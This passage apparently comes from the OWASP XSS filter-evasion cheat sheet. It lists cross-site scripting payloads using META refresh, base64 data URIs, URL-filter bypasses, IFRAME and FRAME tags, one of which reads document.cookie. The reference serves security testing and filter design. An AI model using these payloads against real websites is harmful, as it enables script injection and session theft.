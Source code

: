 ### META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### META using Data

Directive URL scheme. This attack method is nice because it also doesn't have anything visible that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) for more details.

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### META with Additional URL Parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade this filter rule with the following technique:

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

(Submitted by Moritz Naumann)

### IFRAME

If iFrames are allowed there are a lot of other XSS problems as well:

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following:

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

(Submitted by: David Cross)

### FRAME

Frames have the same sorts of XSS problems as iFrames

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE
